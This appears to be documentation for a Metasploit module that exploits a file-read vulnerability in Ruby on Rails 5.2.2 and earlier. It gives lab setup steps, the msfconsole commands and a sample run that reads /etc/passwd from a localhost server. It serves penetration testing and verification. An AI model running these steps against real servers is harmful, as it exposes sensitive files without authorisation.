 ## Vulnerable Application

  Ruby on Rails versions <= 5.2.2.

  Installation steps:
  1. `gem install rails -v 5.2.1`
  2. `rails new demo`
  3. `rails s -b 0.0.0.0`

## Verification Steps

  1. Start a Rails server using a vulnerable version 
  2. Start msfconsole
  3. Do: ```use auxiliary/gather/rails_doubletap_file_read```
  4. Do: ```set ROUTE /your_route```
  5. Do: ```set RHOSTS target```
  6. Do: ```set TARGET_FILE /absolute/path/to/remote/file.txt```
  7. Do: ```run```
  8. If everything goes smoothly, you should get the contents of the remote file printed to the console.


## Options

  **ROUTE**

  This is a web path or "route" on the vulnerable server. Since the vulnerability lies within the PathResolver of Rails, the route should be in the server's routes.rb file. 

  **TARGET_FILE**

  This is the file to be read on the remote server. This *must* be an absolute path (eg. /etc/passwd).

## Advanced Options

  **SKIP_CHECK**
  
  This options skips the initial vulnerability check and continues thinking the server is vulnerable. 

## Scenarios

### Version of software and OS as applicable


  ```
msf5 > use auxiliary/gather/rails_doubletap_file_read
msf5 auxiliary(gather/rails_doubletap_file_read) > options

Module options (auxiliary/gather/rails_doubletap_file_read):

   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
   Proxies                       no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                        yes       The target address range or CIDR identifier
   ROUTE        /msf             yes       A route on the vulnerable server.
   RPORT        80               yes       The target port (TCP)
   SSL          false            no        Negotiate SSL/TLS for outgoing connections
   TARGET_FILE  /etc/passwd      yes       The absolute path of remote file to read.
   VHOST                         no        HTTP server virtual host

msf5 auxiliary(gather/rails_doubletap_file_read) > set RHOSTS localhost
RHOSTS => localhost
msf5 auxiliary(gather/rails_doubletap_file_read) > set RPORT 8000
RPORT => 8000
smsf5 auxiliary(gather/rails_doubletap_file_read) > set ROUTE /demo
ROUTE => /demo
msf5 auxiliary(gather/rails_doubletap_file_read) > run
[*] Running module against 127.0.0.1

[+] Target is vulnerable!
[*] Requesting file /etc/passwd
[+] Response from server:
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...snip...
systemd-timesync:x:104:110:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
postgres:x:105:112:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash

[*] Auxiliary module execution completed  
```
